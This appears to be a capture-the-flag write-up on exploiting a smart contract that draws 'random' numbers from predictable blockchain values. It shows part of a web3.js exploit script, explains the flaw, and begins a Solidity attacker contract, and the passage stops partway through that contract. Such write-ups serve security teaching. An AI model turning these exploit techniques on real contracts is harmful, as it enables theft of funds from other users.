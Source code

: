 ```js
                .on ("receipt", _ => {
                    web3.eth.accounts.signTransaction (
                        {
                            to : CTF00_ADDR,
                            gas: "10000000",
                            value: value.add (
                                web3.utils.BN ( "1" )
                            )
                        },
                        dummy_acc.privateKey
                    ).then (
                        signed => { web3.eth.sendSignedTransaction(signed.rawTransaction).on ('receipt', console.log) }
                    );
                })
        );
    });
};
```


## Vulnerability explanation

This contract relies on a method that doesn't create proper random values (as everything in the blockchain is deterministic by design).
In this case, the following data is used to create a "random" number:
  - `block.timestamp` as a constant value stored on creation. This is the timestamp of the block that contained the contract's creation call
  - `Max` is an argument defined in the contract itself (100, as per line :75)
  - `block.number` is the number of the current block, when the `random()` function was called. This can be easily controlled if, for example, an attacker calls this contract from within another contract, so it's guaranteed that both calls end up in the same block.
  - `Last_Payout` is a variable that can be obtained by calling the `WatchLastPayout()` function of this contract (or by manually calculating it, observing the previous contract calls, which are recorded in the blockchain)
  - `blockhash(seed)` is the hash of the block defined by `seed`, assuming it's one of the last 256 available ones. Otherwise, returns 0. In any case, `seed` (the block number whose hash we want to calculate) is easy to precompute, since it depends on the deterministic inputs outlined above.

To gain the jackpot, an attacker can per-calculate these values and wait until the odds are favourable.

## Full exploit

Since calls from a smart contract to another one always end up in the same block, the values of block.number (or other attributes like that) are always guaranteed to be correct.
This is an example of attacker contract:
```js
pragma solidity ^0.5.0;

import "hardhat/console.sol";

contract VictimInterface {
    function NextPayout() public view returns(uint next) {}
}

contract Caller {

    address payable private originalAddress = 0x5FbDB2315678afecb367f032d93F642f64180aa3;
    VictimInterface victim = VictimInterface (originalAddress);
    uint256 private salt = 0;

    address payable private admin;

```